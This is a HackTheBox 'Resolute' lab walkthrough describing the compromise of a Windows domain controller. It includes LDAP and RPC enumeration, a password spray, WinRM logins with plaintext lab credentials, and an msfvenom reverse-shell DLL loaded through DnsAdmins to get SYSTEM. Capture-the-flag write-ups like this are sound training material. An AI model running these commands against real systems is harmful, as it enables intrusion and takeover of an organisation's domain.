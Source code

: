```yaml
---
title: "HTB Resolute Walkthrough"
machine_name: "Resolute"
difficulty: "Medium"
os: "Windows"
date_completed: "2025-04-25"
techniques: ["Active Directory", "RPC Enumeration", "LDAP Anonymous Bind", "Password Spraying", "WinRM", "DnsAdmins Exploitation", "DLL Injection", "PowerShell Transcripts"]
box_ip: "10.10.10.169"
machine_rank: "#9183"
htb_completion_image: "resolute.webp"
---
```


In this walkthrough, I'll guide you through my exploitation of the "Resolute" box from HackTheBox. It begins with simple anonymous bindings and culminates in a system-level compromise. The attack chain starts with RPC anonymous binding to gather user accounts, discovering credentials through LDAP anonymous binding, and confirming access via password spraying to gain initial access as user 'melanie'. From there, the path leads to uncovering a hidden PowerShell transcript directory containing the credentials for a higher-privileged user 'ryan', who belongs to the powerful DnsAdmins group. This group membership becomes our ticket to privilege escalation by allowing us to inject a malicious DLL through the DNS service, ultimately yielding SYSTEM-level access and complete domain compromise.

## Box Information
- **Platform:** HackTheBox
- **Operating System:** Windows Server 2016
- **Domain:** megabank.local
- **Computer Name:** RESOLUTE
- **FQDN:** Resolute.megabank.local
- **Date Completed:** April 24, 2025

## Initial Enumeration

As always, we begin with an nmap scan to identify available services:

```bash
nmap -p- --min-rate 5000 -vvv -n -Pn 10.10.10.169 -oG nmap/allPorts 
nmap -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49671,49676,49677,49688,49907 10.10.10.169 -oN nmap/detailed
```

### Open Ports and Services

```bash
53/tcp   open  domain      DNS         # Domain Controller indicator
88/tcp   open  kerberos    Kerberos    # Confirms Active Directory environment
135/tcp  open  rpc         RPC
389/tcp  open  ldap        LDAP
445/tcp  open  smb         SMB
5985/tcp open  wsman       WinRM
47001/tcp open  winrm      WinRM
```

From this scan, we can immediately identify that we're dealing with an Active Directory domain controller, as evidenced by the DNS (53), Kerberos (88), and LDAP (389) services.

### Additional Information Gathered

- **Domain name:** megabank.local
- **Computer name:** RESOLUTE
- **FQDN:** Resolute.megabank.local

**Note on Time Skew:** There is a time skew between our attacking machine and the domain controller. This is particularly important for Kerberos-based attacks in Active Directory environments, as Kerberos authentication is highly time-sensitive with a default maximum tolerance of only 5 minutes between client and server clocks.

## User Enumeration

We can obtain a list of users using RPCClient with anonymous binding:

```bash
rpcclient -U '' -N 10.10.10.169
rpcclient $> enumdomusers
```

With this list, I shifted my aim to finding a password. SMB NULL Authentication was proving unsuccessful, so I had no access to shares. The next step was enumerating LDAP.

## Password Discovery via LDAP Anonymous Binding

LDAP anonymous binding was enabled, and I was able to extract a password with the following query:

```bash
ldapsearch -H ldap://10.10.10.169 -x -b 'DC=megabank,DC=local' -s sub | grep Pass
```

The password was found in a description field for the user marko: **Welcome123!**

## Initial Access

With a list of users and a potential password, it's time for a password spray. I tried the password "Welcome123!" against all enumerated users and found that it worked for the user **melanie**.

I checked for accessible SMB shares but found nothing interesting. Since our port scan showed WinRM was open, I tried connecting via WinRM:

```bash
evil-winrm -i 10.10.10.169 -u melanie -p Welcome123!
```

Success! We now have a shell as melanie and can grab the user flag.

## Lateral Movement to Ryan

Once on the system, I began exploring for privilege escalation opportunities. The key finding was a hidden directory at the root level:

```bash
dir -force
```

This revealed a hidden **PSTranscripts** directory. This is not a common directory, so I decided to investigate further:

```bash
dir -force C:\PSTranscripts\*
```

Following the trail led to a PowerShell transcript file containing command history. Within this file, I discovered credentials for another user:

**ryan:Serv3r4Admin4cc123!**

These credentials belonged to the user ryan, and I was able to establish a new WinRM session as this user:

```bash
evil-winrm -i 10.10.10.169 -u ryan -p Serv3r4Admin4cc123!
```

## Privilege Escalation via DnsAdmins Group

I knew there were no other users on the box I could pivot to except for Administrator, and knowing I was on an AD environment, it was likely the next path had something to do with a privilege the ryan user had. So I checked group memberships:

```bash
whoami /groups
```

The output revealed that ryan was a member of the **DnsAdmins** group. This is significant because members of this group can manipulate DNS settings, including loading arbitrary DLLs.

The exploitation path involves:
1. Creating a malicious DLL
2. Using dnscmd to configure the DNS server to load our DLL
3. Restarting the DNS service to execute our code

Here's how I executed this attack:

First, I created a reverse shell DLL on my attacking machine via msfvenom:

```bash
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.16.3 LPORT=9001 -f dll > privesc.dll
```

Then I set up an SMB server to host the file:

```bash
mkdir exploits
mv privesc.dll exploits/
sudo impacket-smbserver share $(pwd)
```

In another terminal, I started a netcat listener:

```bash
nc -lnvp 9001
```

Back in my WinRM session as ryan, I configured the DNS server to load my malicious DLL and restarted the service:

```bash
dnscmd Resolute.megabank.local /config /serverlevelplugindll \\10.10.16.3\share\privesc.dll
sc.exe stop dns
sc.exe start dns
```

As the DNS service restarted, it loaded my DLL, which executed with SYSTEM privileges and sent a reverse shell to my listener.

Success! I now had a shell as **NT AUTHORITY\SYSTEM** and could grab the root flag.

## Key Learning Points

### Technical Skills Gained
- DnsAdmin group exploitation in Active Directory via DLL injection
- Working with Windows Server 2016
- Exploiting the dnscmd binary
- DNS service management with sc.exe
- Using netexec as an alternative to crackmapexec
- Finding hidden directories with `dir -force`

### Methodology Improvements
- Quickly extracted all users using `rpcclient` and I'm now starting to memorize some of the more common enumeration commands
- Following guided walkthrough helped me not waste tons of time
- Started to copy Ippsec's way of organizing files with my own touch which is proving helpful

### Personal Growth Notes
- I need to remember to use all avenues of enumeration
- I forgot to enumerate LDAP Anonymous Binding initially, which was a necessary step
- In general I think I'm getting a better grasp of AD. I'm almost done with the HTB Academy Module 'Active Directory Enumeration & Attacks'

## Attack Chain Summary

1. Enumerate users via RPC anonymous binding
2. Discover password via LDAP anonymous binding
3. Password spray reveals melanie uses the discovered password
4. Access via WinRM as melanie
5. Discover ryan's credentials in a hidden PowerShell transcripts directory
6. Lateral movement to ryan, who is in the DnsAdmins group
7. Exploit DnsAdmins privilege by injecting a malicious DLL using the dnscmd binary
8. Gain SYSTEM privileges and capture the root flag

**Important Note:** The DnsAdmins exploitation requires restarting the DNS service, which in a real pentest environment is not ideal as it can cause service disruption.
